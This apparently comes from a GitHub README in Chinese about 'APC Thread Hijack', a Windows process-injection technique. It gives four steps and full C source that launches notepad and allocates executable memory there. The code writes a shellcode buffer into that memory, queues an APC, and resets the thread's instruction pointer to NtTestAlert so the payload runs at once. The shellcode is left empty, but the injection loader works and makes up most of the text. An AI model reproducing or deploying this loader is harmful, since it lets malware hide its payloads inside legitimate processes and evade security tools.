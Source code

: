 # APC Thread Hijack

## 简介

我也不知道为什么要写这个....这玩意有点像脱裤子放屁....

昨天和某个dalao谈论了一下apc注入，我们经过友好的技术交流\(迫真\)，意识到了三环插入的apc无法确定时间执行，于是有了这个东西。

## 流程

1. 插入apc
2. 挂起线程
3. 修改rip指向NtTestAlert函数
4. 恢复线程

## 代码

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] =
"";

typedef VOID(NTAPI* pNtTestAlert)(VOID);

int main() {
	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi = { 0 };
	pNtTestAlert NtTestAlert = (pNtTestAlert)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtTestAlert");
	CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
	Sleep(1000);//Wait for thread initialization to complete -> nttestalert is executed
	SuspendThread(pi.hThread);
	LPVOID lpBuffer = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(pi.hProcess, lpBuffer, shellcode, sizeof(shellcode), NULL);
	CONTEXT ctx = { 0 };
	QueueUserAPC((PAPCFUNC)lpBuffer, pi.hThread, NULL);
	ctx.ContextFlags = CONTEXT_ALL;
	GetThreadContext(pi.hThread, &ctx);
	ctx.Rip = (DWORD64)NtTestAlert;
	SetThreadContext(pi.hThread, &ctx);
	ResumeThread(pi.hThread);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	//NtTestAlert();
	return 0;
}
```

